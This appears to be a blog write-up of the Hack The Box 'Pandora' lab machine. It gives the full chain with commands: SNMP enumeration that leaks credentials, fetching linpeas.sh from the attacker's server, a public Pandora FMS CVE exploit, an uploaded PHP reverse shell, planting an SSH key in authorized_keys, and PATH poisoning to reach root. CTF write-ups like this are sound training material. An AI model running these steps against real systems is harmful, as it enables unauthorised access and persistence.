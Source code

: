 ```yaml
---
title: Hack the Box Pandora Writeup
date: 2022-03-07
tags:
  - Pandora, Snmp, Reverse-Shell, Privelege Escalation
---
```


This is my writeup on Hackthebox **Easy** machine, Pandora. This was a bit hard machine than other easy machines because it involved double privelege escalation and I had to deal with some new services and techniques which atleast I didn't know in detail.

As always I started with scanning the target machine with ```Nmap``` and found the ssh and http port open.
![nmap scan](scan.png)
On opening the website, it was a simple html page, with no link working or any connection with server. So I decided to ignore this.
Next, I tried some default logins on ssh port, but no success there too. This led me to conclude that there must be other service running on this machine, which Nmap couldn't discover in first scan. I scanned again but this time top 20 ports on tcp but nothing.

Then I did UDP scan on top 20 ports.

```
nmap -T4 -sV -sU --top-ports 20  10.10.11.136
```

This gave me the following output.
![top ports udp scan](scan-top.png)
So we have the **SNMP** service running on port 161. I had to read about this service a bit as I hadn't dealt with it before. I  read some standard enumerations of snmp and thought to use Metasploit for this as it has all the built-in scanners. I used snmp enumeration module.

```
msfconsole
use auxiliary/scanner/snmp/snmp_enum
setg RHOSTS 10.10.11.136
run
```

On running, I got the a long output containing machine name, running processes and other information. On going through the output I found a set of credentials in running services.
![snmp enumeration](snmp-enum.png)
I tried these credentials on ssh, and luckily I got in!!
![daniel ssh login](ssh-daniel.png)
After searching for flag file, I found that there is another user ```matt``` who owns the user flag file. So next task was to escalate privelege to matt user.
![daniellogin](daniel.png)
I decided to use Linpeas.sh(Linux privelege escalation awesome script) to look for path to privelge Escalation. You can get script [here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220306).
You can also use Msf module [PEASS](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit) for using this script.
I uploaded the script on the target machine and ran it. I used python http.server module to upload file onto target machine.
```
python3 -m http.server 8002
```
Then on pandora, run the following commands:
```
wget http://10.10.16.43:8002/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
On going through the output, I found this information intersting. It looks there is another website hosted on localhost.localdomain.

![linpeasinfo](linpeas.png)

Using ssh local port forwarding, I forwarded the port 80 of target machine to port 8081 of my attacking vm.

```
ssh -L 8081:localhost:80 daniel@10.10.11.136 
```
On opening ```localhost:8081``` in browser I got login page of Pandora FMS. On bottom of the page, I found the version of the service as v7.0. On searching ```pandora fms 7.0 exploit``` I found [this](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) useful link.

I searched for CVE-2021-32099 exploit on github and found [this](https://github.com/ibnuuby/CVE-2021-32099). On entering the url in browser I got admin access. I uploaded [php-reverse-shell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) file on file manager. Also on visiting the pandora_console folder on the machine (/var/www/pandora/pandora_console) I saw images folder which had all the uploads.
On opening the uploaded reverse shell file as
```localhost:8081/pandora_console/images/php-reverse-shell``` I got the shell :).
Run the following commands on the web shell to get user flag 
```
echo "<your public ssh key" >> /home/matt/.ssh/authorized_keys
```
Now login into pandora as matt user.

```
ssh matt@10.10.11.136
```
Now we get the user flag !!

For root flag, I ran ```linpeas.sh``` again on the machine and found an executable file ```/usr/bin/pandora_backup``` with executable permission for matt and setuid bit set for root. On running this file, the backup failed because it was using tar for which I didn't have permissions. So I resorted to path poisoning attack.
```
cd /home/matt
echo "/bin/bash" >> tar
export PATH=/home/matt:$PATH
chmod 777 tar
/usr/bin/pandora_backup
```

And finallyyy, you get elevated to root user.


